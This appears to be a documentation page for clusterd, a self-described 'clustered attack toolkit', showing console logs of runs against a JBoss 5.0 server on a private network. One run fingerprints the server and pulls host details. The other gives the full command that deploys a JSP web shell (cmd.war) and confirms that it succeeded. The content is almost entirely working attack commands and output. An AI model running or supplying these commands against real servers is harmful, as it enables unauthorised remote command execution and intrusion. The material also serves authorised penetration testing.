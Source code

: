 ```
 [2014-05-25 10:57PM] Checking jboss version Any JBoss EJB Invoker Servlet...
 [2014-05-25 10:57PM] Checking jboss version Any JBoss HTTP Headers (Unreliable)...
 [2014-05-25 10:57PM] Checking jboss version Any JBoss JMX Invoker Servlet...
 [2014-05-25 10:57PM] Checking jboss version Any JBoss RMI Interface...
 [2014-05-25 10:57PM] Checking jboss version Any JBoss Status Page...
 [2014-05-25 10:57PM] Matched 7 fingerprints for service jboss
 [2014-05-25 10:57PM]   JBoss JMX Console (version 5.0)
 [2014-05-25 10:57PM]   JBoss Web Console (version 5.0)
 [2014-05-25 10:57PM]   JBoss EJB Invoker Servlet (version Any)
 [2014-05-25 10:57PM]   JBoss HTTP Headers (Unreliable) (version 5.0)
 [2014-05-25 10:57PM]   JBoss JMX Invoker Servlet (version Any)
 [2014-05-25 10:57PM]   JBoss RMI Interface (version Any)
 [2014-05-25 10:57PM]   JBoss Status Page (version Any)
 [2014-05-25 10:57PM] Fingerprinting completed.
 [2014-05-25 10:57PM] Attempting to retrieve JBoss info...
 [2014-05-25 10:57PM]   ActiveThreadCount: 68    
 [2014-05-25 10:57PM]   AvailableProcessors: 1    
 [2014-05-25 10:57PM]   OSArch: amd64    
 [2014-05-25 10:57PM]   MaxMemory: 518979584    
 [2014-05-25 10:57PM]   HostAddress: 192.168.1.105    
 [2014-05-25 10:57PM]   JavaVersion: 1.7.0_45    
 [2014-05-25 10:57PM]   OSVersion: 6.1    
 [2014-05-25 10:57PM]   TotalMemory: 286703616    
 [2014-05-25 10:57PM]   JavaVendor: Oracle Corporation    
 [2014-05-25 10:57PM]   ActiveThreadGroupCount: 9    
 [2014-05-25 10:57PM]   OSName: Windows 7    
 [2014-05-25 10:57PM]   FreeMemory: 122651808    
 [2014-05-25 10:57PM]   HostName: bryan-PC    
 [2014-05-25 10:57PM]   JavaVMVersion: 24.45-b08    
 [2014-05-25 10:57PM]   JavaVMVendor: Oracle Corporation    
 [2014-05-25 10:57PM]   JavaVMName: Java HotSpot(TM) 64-Bit Server VM    
 [2014-05-25 10:57PM] Finished at 2014-05-25 10:57PM
```

jboss DFS deployment against JBoss 5.0
```
$ ./clusterd.py -i 192.168.1.105 -a jboss -v5.0 --deploy ./src/lib/resources/cmd.war --random-agent

        clusterd/0.3 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-05-25 11:00PM] Started at 2014-05-25 11:00PM
 [2014-05-25 11:00PM] Servers' OS hinted at windows
 [2014-05-25 11:00PM] Fingerprinting host '192.168.1.105'
 [2014-05-25 11:00PM] Server hinted at 'jboss'
 [2014-05-25 11:00PM] Checking jboss version 5.0 JBoss JMX Console...
 [2014-05-25 11:00PM] Checking jboss version 5.0 JBoss Web Console...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss EJB Invoker Servlet...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss HTTP Headers (Unreliable)...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss JMX Invoker Servlet...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss RMI Interface...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss Status Page...
 [2014-05-25 11:00PM] Matched 7 fingerprints for service jboss
 [2014-05-25 11:00PM]   JBoss JMX Console (version 5.0)
 [2014-05-25 11:00PM]   JBoss Web Console (version 5.0)
 [2014-05-25 11:00PM]   JBoss EJB Invoker Servlet (version Any)
 [2014-05-25 11:00PM]   JBoss HTTP Headers (Unreliable) (version 5.0)
 [2014-05-25 11:00PM]   JBoss JMX Invoker Servlet (version Any)
 [2014-05-25 11:00PM]   JBoss RMI Interface (version Any)
 [2014-05-25 11:00PM]   JBoss Status Page (version Any)
 [2014-05-25 11:00PM] Fingerprinting completed.
 [2014-05-25 11:00PM] This deployer requires a JSP, default to cmd.jsp? [Y/n] > 
 [2014-05-25 11:00PM] Preparing to deploy cmd...
 [2014-05-25 11:00PM] Successfully deployed '/cmd/cmd.jsp'
```
